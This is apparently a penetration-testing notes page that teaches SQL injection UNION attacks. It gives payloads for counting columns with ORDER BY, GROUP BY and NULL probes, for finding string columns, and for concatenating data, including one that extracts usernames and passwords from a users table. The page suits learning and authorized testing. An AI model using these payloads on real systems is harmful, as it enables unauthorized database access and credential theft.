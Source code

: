 # UNION Attacks

## Theory

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query will return a single result set with two columns, containing values from columns **a** and **b** in **table1** and columns **c** and **d** in **table2**.

## Practice

### Finding number of columns

We first need to know the number of columns in order to append data. When performing a SQL injection UNION attack, there are three effective methods to determine how many columns are being returned from the original query.

{% tabs %}
{% tab title="MySQL" %}
Using `order by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `group by`

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `UNION SELECT` This only works if error showing is enabled

```sql
' UNION SELECT NULL--            #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL--       #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL,NULL--  #No error means query uses 3 column
```
{% endtab %}
{% endtabs %}

### Finding the good column's data type

The reason for performing a SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

{% tabs %}
{% tab title="MySQL" %}
After already determined number of columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT`. For example, if the query returns four columns, you would submit:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
{% endtab %}
{% endtabs %}

### String concatenation

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.\
For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

{% tabs %}
{% tab title="MySQL" %}
```sql
'foo' '~' 'bar' /*Note the space between the two strings*/
CONCAT('foo','~','bar')
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
'foo'+'~'+'bar' 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}
{% endtabs %}

### Using UNION attack

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

For example we can retrieve the database version on MySQL:

```sql
' UNION SELECT @@version, NULL--
```

You can now use queries on this page, in combinaison with UNION injection to dump the database.

{% content-ref url="enum-database.md" %}
[enum-database.md](enum-database.md)
{% endcontent-ref %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
